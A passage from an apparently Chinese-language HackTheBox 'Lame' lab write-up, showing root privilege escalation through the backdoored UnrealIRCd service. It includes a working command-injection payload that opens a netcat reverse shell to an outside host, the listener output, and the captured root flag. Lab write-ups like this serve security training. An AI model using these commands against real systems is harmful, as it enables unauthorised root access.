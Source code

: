 因为网络问题没法下载5622.tar.bz2，这边先略过，可见参考文章2：privesc2部分

### 提权3 : UnrealIRCd Backdoored

推测由于网络问题，`netstat -nltp` 数据没能回显过来，从结果中发现6697端口，马上想到 IRC。

`ps auxww | grep -i unreal` 查看unrealIRC进程，发现 `UnrealIRCd` 以root权限运行。

```shell
 ps auxww | grep -i unreal
 root     5612 0.0 0.4   8540 2488 ?       S   01:43   0:00 /usr/bin/unrealircd
 root     6522 0.0 0.1   1784   548 ?       R   06:01   0:00 grep -i unreal
```

根据这篇文章 unrealircd-3281-backdoored ，我们可以利用此服务来创建后门并拿到root权限	

按照参考文章2，做一遍

```shell
 aemon@lame:/tmp$ nc 127.0.0.1 6697
 nc 127.0.0.1 6697
 :irc.Metasploitable.LAN NOTICE AUTH :*** Looking up your hostname...
 :irc.Metasploitable.LAN NOTICE AUTH :*** Couldn't resolve your hostname; using your IP address instead
 ERROR :Closing Link: [127.0.0.1] (Ping timeout)
```

得到 Metasploitable 的输出，这表明我们在正确的方向。为了方便使用后门，我们可以使用已知的connect-back shell方法。

```shell
 daemon@lame:/tmp$ echo "AB; nc -e /bin/sh 10.10.14.2 5555" | nc 127.0.0.1 6697         
 echo "AB; nc -e /bin/sh 10.10.14.2 5555" | nc 127.0.0.1 6697
 :irc.Metasploitable.LAN NOTICE AUTH :*** Looking up your hostname...
 :irc.Metasploitable.LAN NOTICE AUTH :*** Couldn't resolve your hostname; using your IP address instead
```

另一边

```shell
 └─$ nc -lvnp 5555   
 listening on [any] 5555 ...
 connect to [10.10.14.2] from (UNKNOWN) [10.10.10.3] 39370
 whoami
 root
 cat /root/root.txt
 29ad7975c49f5ccb49b735a93efbfc4e
```

测试发现IRC的6667和6697端口都可以。

## 他山之石

- https://hackpentest.in/hackthebox-lame/  使用了python获取一个完整的tty SHELL `python -c 'import pty;pty.spawn("/bin/bash")'`，同时提供了非MSF思路。
- https://coldfusionx.github.io/posts/LameHTB/  使用了crackmapexec ， 根据现有exp自己复现了利用代码；distccd的攻击思路、提权思路



---

> 作者: Xavier  
> URL: https://www.bthoughts.top/posts/hackthebox-lame/htb%E9%9D%B6%E6%9C%BA-lame-writeup/  

